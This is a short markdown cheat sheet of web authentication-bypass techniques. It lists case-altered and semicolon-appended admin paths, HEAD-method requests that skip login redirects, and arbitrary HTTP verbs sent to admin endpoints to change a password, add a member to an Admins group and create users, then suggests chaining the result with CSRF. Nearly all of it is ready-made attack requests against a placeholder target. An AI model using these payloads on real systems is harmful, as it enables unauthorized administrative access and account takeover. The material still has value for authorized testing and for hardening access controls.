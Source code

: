 ### Sensitive Files Access
```
http://sub.target.com/web/admin/ --> 302 Redirect -> Main domain
http://sub.target.com/web/aDmiN/ --> 200 Ok -> Admin login page
http://sub.target.com/web/aDmiN/FUZZ --> Critical Sensitive Files
```
#### Bypass Authentication
```
http://sub.target.com/web/admin;/
```

### Auth Bypass via HTTP Request Method

#### HAED Method
```
If a page redirect(302) to login page to access that page try HEAD
method.

http://target.com/web/admin/ --> 302 Redirect --> http://target.com/web/admin/login

HEAD /admin HTTP/1.1
Host: target.com
```
#### Arbitrary Methods
```
JEFF /admin/changePw.php?member=myAdmin&passwd=foo123&confirm=foo123
CATS /admin/groupEdit.php?group=Admins&member=myAdmin&action=add
FOOBAR /admin/createUser.php?member=myAdmin
```
##### If this methods return white page then try to exploit via CSRF attack.
